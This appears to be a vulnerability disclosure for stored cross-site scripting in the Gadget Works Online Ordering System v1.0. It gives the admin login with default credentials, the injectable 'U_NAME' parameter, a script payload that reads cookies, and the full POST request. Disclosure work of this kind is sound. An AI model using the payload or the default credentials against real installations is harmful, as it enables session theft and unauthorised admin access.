 # Gadget Works Online Ordering System v1.0 has Stored Cross Site Scripting

BUG_Author: heitaoa999

Vulnerability url: /philosophy/admin/user/controller.php?action=add

POST parameter 'U_NAME' exists Stored Cross Site Scripting

### Steps to reproduce

1. Go to the admin Dashboard

http://localhost/philosophy/admin/login.php

System Admin Access information:

Username: janobe
Password: admin

2. Click on Users and Click on + News and select User

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss1.png)

3. Put Payload into the 'Account Name' parameter.

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss2.png)

4. Click on Save

Transmission packet

```
POST /philosophy/admin/user/controller.php?action=add HTTP/1.1
Host: localhost
Content-Length: 133
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/philosophy/admin/user/index.php?view=add
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=erriivuolh0rb2ucknp2nmpolf
Connection: close

deptid=&U_NAME=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E&deptid=&U_USERNAME=a&deptid=&U_PASS=b&U_ROLE=Administrator&save=
```

5. Payload will trigger when a user visits on http://localhost/philosophy/admin/user/index.php

![image](https://github.com/heitaoa999/bug_report/blob/main/pictures/xss3.png)
